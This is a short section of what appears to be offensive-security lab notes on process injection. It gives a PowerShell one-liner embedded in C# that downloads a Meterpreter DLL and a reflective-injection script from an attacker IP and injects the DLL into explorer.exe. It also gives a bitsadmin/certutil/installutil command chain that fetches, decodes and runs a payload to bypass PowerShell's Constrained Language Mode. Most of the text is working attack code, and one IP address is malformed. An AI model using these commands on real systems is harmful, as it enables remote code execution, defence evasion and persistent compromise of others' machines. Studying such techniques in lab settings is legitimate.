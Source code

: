 ## Process Injection
Even though, we can get a reverse shell, we need to inject into a process like explorer.exe for persistence.
We will be, once again, using the Invoke-ReflectivePEInjection.ps1 script for this.

For this, we will use the same code in Visual Studio as for our CLM bypass executable, but edit the cmd string to the following:
```csharp
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.219/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.49.291/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

Compiling and executing the code gives us an executable which we can execute similar to the last section, and this will give us a shell in explorer.exe as follows:
```cmd
bitsadmin /Transfer myJob2 http://192.168.49.219/CLMByDLLinj-b64.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\CLMByDLLinj.exe && del C:\Windows\Tasks\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\CLMByDLLinj.exe
```

Running the command gives us a meterpreter shell.